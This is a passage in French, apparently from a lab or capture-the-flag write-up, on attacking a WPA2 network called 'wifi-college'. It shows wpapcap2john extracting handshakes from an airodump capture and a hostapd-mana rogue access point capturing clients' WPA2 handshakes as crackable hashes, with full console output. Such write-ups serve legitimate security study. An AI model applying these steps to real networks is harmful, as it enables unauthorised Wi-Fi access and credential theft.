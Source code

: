 J'ai extrait les handshakes de la capture `airodump` et j'ai tenté de les casser avec JtR. Ça n'a rien donné.

```console
$ ./wpapcap2john /tmp/capture-01.cap 
File capture-01.cap: raw 802.11
Dumping RSN IE PMKID at 63.614400 BSSID F0:9F:C2:71:22:16 ESSID 'wifi-college' STA 64:32:A8:07:6C:42
wifi-college:06d72e07760cad3f74d4403851aa63bf*f09fc2712216*6432a8076c42*776966692d636f6c6c656765:6432a8076c42:f09fc2712216:f09fc2712216::PMKID:capture-01.cap
Dumping M3/M2 at 63.615424 BSSID F0:9F:C2:71:22:16 ESSID 'wifi-college' STA 64:32:A8:07:6C:42
wifi-college:$WPAPSK$wifi-college#w7z0QG6KN18c/ql0JNMNaX56A7klEDMkC3OcLBmNZYMjSrhktzGg0hg.72OC6/V.9eMZH6aAqOERLPXEztmf1jIP4N7hoZxQ/FnBqU21.5I0.Ec............/JNMNaX56A7klEDMkC3OcLBmNZYMjSrhktzGg0hg.72M.................................................................3X.I.E..1uk2.E..1uk2.E..1uk/....................................................................................................................................................................................../t.....U...6jV7.I8QQm/WHEqm6vZlGM:6432a8076c42:f09fc2712216:f09fc2712216::WPA2, verified:capture-01.cap

3 ESSIDS processed and 1 AP/STA pairs processed
1 handshakes written, 1 RSN IE PMKIDs
```

De son côté Mana obtenait d'autres types de hashs (ce sont sensiblement les mêmes, mais plus rapides à casser) :

```console
$ sudo /usr/bin/hostapd-mana -i wlan1 /tmp/mana.conf
Configuration file: /tmp/mana.conf
MANA: Captured WPA/2 handshakes will be written to file '/tmp/wifi-college.hcapx'.
Using interface wlan1 with hwaddr f0:9f:c2:71:22:16 and ssid "wifi-college"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
wlan1: STA 64:32:a8:07:6c:40 IEEE 802.11: authenticated
wlan1: STA 64:32:a8:07:6c:40 IEEE 802.11: associated (aid 1)
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:40
MANA WPA2 HASHCAT | WPA*02*01724535a323a494d415ee58676a618b*f09fc2712216*6432a8076c40*776966692d636f6c6c656765*11caad069c619e5ad1b42c348347b97cf100490d26852b25d0ac70d85e7b0024*0103008702010a00000000000000000001d8461baee9ae51a81b0e4c72ed08563a86c7ad4ccbe81760c78e4ed72158564f000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002830260100000fac040100000fac040100000fac01000001003134172b2be0fd6b9c092568488236ec*00
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:40
MANA WPA2 HASHCAT | WPA*02*a65ec8c6cf6d7755f4180a1863ec5a09*f09fc2712216*6432a8076c40*776966692d636f6c6c656765*11caad069c619e5ad1b42c348347b97cf100490d26852b25d0ac70d85e7b0024*0103005f02030a0000000000000000000200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000*00
wlan1: STA 64:32:a8:07:6c:42 IEEE 802.11: authenticated
wlan1: STA 64:32:a8:07:6c:42 IEEE 802.11: associated (aid 2)
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:42
MANA WPA2 HASHCAT | WPA*02*5825ccc3e9dff77ea937c0c1a881bffc*f09fc2712216*6432a8076c42*776966692d636f6c6c656765*70362926eac4bc78e30f3384a9252a5e000cac4fdf866a04f0b2d7d71973fac4*0103008702010a00000000000000000001b542f98519003ee42503510ab1442a098b8d81cedff58f15eb0fa45eddd3c279000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002830260100000fac040100000fac040100000fac01000001009647e3aa85be1ef075a8e4a4b2858232*00
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:42
MANA WPA2 HASHCAT | WPA*02*05de23dc131f647c5c1942089b7c6398*f09fc2712216*6432a8076c42*776966692d636f6c6c656765*70362926eac4bc78e30f3384a9252a5e000cac4fdf866a04f0b2d7d71973fac4*0103005f02030a0000000000000000000200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000*00
wlan1: STA 64:32:a8:07:6c:43 IEEE 802.11: authenticated
wlan1: STA 64:32:a8:07:6c:43 IEEE 802.11: associated (aid 3)
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:43
```